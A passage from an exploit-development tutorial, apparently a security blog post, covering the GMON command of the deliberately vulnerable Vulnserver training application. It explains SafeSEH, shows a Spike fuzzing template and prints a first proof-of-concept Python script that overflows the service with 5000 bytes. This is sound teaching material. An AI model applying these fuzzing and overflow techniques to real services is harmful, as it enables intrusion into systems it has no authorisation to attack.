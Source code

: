 2. Our buffer will be allowed to pass far enough in the stack frame to
    reach the function’s `SEH` handler.

3. The application must be compiled with `SafeSEH=Off`.

`SafeSEH` is a mechanism created since Windows XP that statically
defines the list of the allowed exception handlers, and if the
application tries to call something different, a crash will happen.

Ok, now with that summary of `SEH`, let’s get our hands dirty.

## Fuzzing GMON

As with the other Vulnserver commands, the `GMON` command takes a single
parameter, so, we can reuse our Spike fuzz template:

``` c
s_string("GMON ");
s_string_variable("*");
```

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol, and `s_string_variable` tells `Spike` to use that
string as a fuzz point.

And run it:

<div class="imgblock">

![Fuzzing GMON](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/fuzz1_qh0ra7.gif)

</div>

We got the crash\!

And as with the other Vulnserver commands, it seems that 5060 bytes of
data triggered the crash:

<div class="imgblock">

![Wireshark](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/wireshark1_qyfgfo.webp)

</div>

We can create our first proof-of-concept exploit:

**exploit.py.**

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
